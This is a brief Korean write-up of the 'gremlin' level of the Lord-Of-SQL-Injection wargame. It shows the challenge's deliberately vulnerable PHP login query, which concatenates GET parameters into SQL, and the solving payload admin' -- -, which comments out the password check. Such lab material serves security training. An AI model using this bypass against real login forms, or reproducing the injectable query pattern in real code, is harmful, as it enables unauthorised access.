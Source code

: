 # Lord-Of-SQL-Injection 01 gremlin

## Overview

```php
<?php
    include "./config.php";
    login_chk();
    dbconnect();
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) solve("gremlin");
    highlight_file(__FILE__);
?>
```

## How to solve

`admin' -- -` 를 id 쿼리 스트링 안에 넣으면 된다.

저 문장이 그대로 쿼리에 들어가 쿼리는

`select id from prob_gremlin where id='admin' -- -' and pw=''`

가 되기 때문에 결과값으로 admin 의 레코드를 가져오게 된다.